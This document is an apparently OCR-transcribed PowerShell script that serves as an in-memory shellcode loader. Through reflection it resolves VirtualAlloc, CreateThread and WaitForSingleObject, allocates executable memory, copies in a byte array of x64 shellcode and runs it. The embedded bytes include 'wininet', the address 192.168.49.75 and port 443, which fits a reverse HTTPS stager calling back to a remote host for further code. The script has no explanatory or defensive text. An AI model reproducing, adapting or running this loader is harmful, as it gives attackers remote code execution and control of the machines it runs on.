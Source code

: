 function LookupFunc {
 Param ($moduleName, $functionName)
 $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
 Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
 Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
 $tmp=@()
 $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
 return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,
@($moduleName)), $functionName))
}
function getDelegateType {
 Param (
 [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
 [Parameter(Position = 1)] [Type] $delType = [Void]
 )
 $type = [AppDomain]::CurrentDomain.
 DefineDynamicAssembly((New-Object
System.Reflection.AssemblyName('ReflectedDelegate')),
 [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
 DefineDynamicModule('InMemoryModule', $false).
 DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass',
 [System.MulticastDelegate])
 $type.
 DefineConstructor('RTSpecialName, HideBySig, Public',
[System.Reflection.CallingConventions]::Standard, $func).
 SetImplementationFlags('Runtime, Managed')
 $type.
 DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
 SetImplementationFlags('Runtime, Managed')
 return $type.CreateType()
}
$lpMem =
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc
kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32])
([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,0x51,0x65,0x48,0x8b,0x52,0x60,0x56,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x41,0x51,0x48,0x1,0xd0,0x66,0x81,0x78,0x18,0xb,0x2,0xf,0x85,0x72,0x0,0x0,0x0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x44,0x8b,0x40,0x20,0x8b,0x48,0x18,0x49,0x1,0xd0,0xe3,0x56,0x4d,0x31,0xc9,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x48,0x31,0xc0,0x41,0xc1,0xc9,0xd,0xac,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x41,0x58,0x48,0x1,0xd0,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49,0xbe,0x77,0x69,0x6e,0x69,0x6e,0x65,0x74,0x0,0x41,0x56,0x48,0x89,0xe1,0x49,0xc7,0xc2,0x4c,0x77,0x26,0x7,0xff,0xd5,0x53,0x53,0x48,0x89,0xe1,0x53,0x5a,0x4d,0x31,0xc0,0x4d,0x31,0xc9,0x53,0x53,0x49,0xba,0x3a,0x56,0x79,0xa7,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0xe,0x0,0x0,0x0,0x31,0x39,0x32,0x2e,0x31,0x36,0x38,0x2e,0x34,0x39,0x2e,0x37,0x35,0x0,0x5a,0x48,0x89,0xc1,0x49,0xc7,0xc0,0xbb,0x1,0x0,0x0,0x4d,0x31,0xc9,0x53,0x53,0x6a,0x3,0x53,0x49,0xba,0x57,0x89,0x9f,0xc6,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0xd8,0x0,0x0,0x0,0x2f,0x32,0x39,0x48,0x41,0x63,0x64,0x6e,0x79,0x35,0x43,0x54,0x6d,0x58,0x75,0x64,0x63,0x68,0x5f,0x71,0x66,0x4e,0x67,0x48,0x2d,0x79,0x62,0x50,0x4f,0x52,0x7a,0x34,0x48,0x62,0x4b,0x76,0x5f,0x76,0x57,0x6e,0x47,0x4d,0x6c,0x6d,0x78,0x53,0x76,0x79,0x6c,0x39,0x68,0x59,0x6e,0x54,0x4e,0x61,0x49,0x62,0x53,0x41,0x37,0x32,0x63,0x62,0x2d,0x76,0x41,0x37,0x4e,0x50,0x39,0x5f,0x6f,0x4c,0x43,0x4b,0x5f,0x34,0x32,0x46,0x33,0x35,0x74,0x68,0x45,0x59,0x66,0x49,0x43,0x72,0x53,0x5a,0x71,0x53,0x6d,0x56,0x6d,0x45,0x4e,0x54,0x6e,0x53,0x6b,0x34,0x74,0x4e,0x74,0x57,0x44,0x58,0x31,0x35,0x55,0x46,0x6a,0x36,0x54,0x37,0x2d,0x69,0x49,0x33,0x50,0x62,0x41,0x5f,0x75,0x67,0x4b,0x72,0x6e,0x32,0x51,0x2d,0x7a,0x33,0x64,0x78,0x37,0x56,0x52,0x63,0x36,0x59,0x65,0x74,0x67,0x30,0x50,0x31,0x33,0x6a,0x46,0x70,0x66,0x70,0x43,0x55,0x32,0x33,0x70,0x6a,0x37,0x57,0x69,0x77,0x74,0x64,0x70,0x4a,0x2d,0x57,0x35,0x47,0x78,0x35,0x6b,0x78,0x4f,0x42,0x32,0x62,0x43,0x4d,0x37,0x6a,0x70,0x78,0x6e,0x78,0x6d,0x47,0x4c,0x33,0x61,0x51,0x54,0x7a,0x75,0x30,0x69,0x63,0x32,0x42,0x5a,0x4c,0x56,0x52,0x4e,0x72,0x2d,0x31,0x55,0x54,0x4c,0x0,0x48,0x89,0xc1,0x53,0x5a,0x41,0x58,0x4d,0x31,0xc9,0x53,0x48,0xb8,0x0,0x32,0xa8,0x84,0x0,0x0,0x0,0x0,0x50,0x53,0x53,0x49,0xc7,0xc2,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x6a,0xa,0x5f,0x48,0x89,0xf1,0x6a,0x1f,0x5a,0x52,0x68,0x80,0x33,0x0,0x0,0x49,0x89,0xe0,0x6a,0x4,0x41,0x59,0x49,0xba,0x75,0x46,0x9e,0x86,0x0,0x0,0x0,0x0,0xff,0xd5,0x4d,0x31,0xc0,0x53,0x5a,0x48,0x89,0xf1,0x4d,0x31,0xc9,0x4d,0x31,0xc9,0x53,0x53,0x49,0xc7,0xc2,0x2d,0x6,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x1f,0x48,0xc7,0xc1,0x88,0x13,0x0,0x0,0x49,0xba,0x44,0xf0,0x35,0xe0,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0xff,0xcf,0x74,0x2,0xeb,0xaa,0xe8,0x55,0x0,0x0,0x0,0x53,0x59,0x6a,0x40,0x5a,0x49,0x89,0xd1,0xc1,0xe2,0x10,0x49,0xc7,0xc0,0x0,0x10,0x0,0x0,0x49,0xba,0x58,0xa4,0x53,0xe5,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x93,0x53,0x53,0x48,0x89,0xe7,0x48,0x89,0xf1,0x48,0x89,0xda,0x49,0xc7,0xc0,0x0,0x20,0x0,0x0,0x49,0x89,0xf9,0x49,0xba,0x12,0x96,0x89,0xe2,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x7,0x48,0x1,0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x0,0x59,0xbb,0xe0,0x1d,0x2a,0xa,0x41,0x89,0xda,0xff,0xd5
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)
$hThread =
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc
kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr],
[UInt32], [IntPtr])
([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc
kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32])
([Int]))).Invoke($hThread, 0xFFFFFFFF)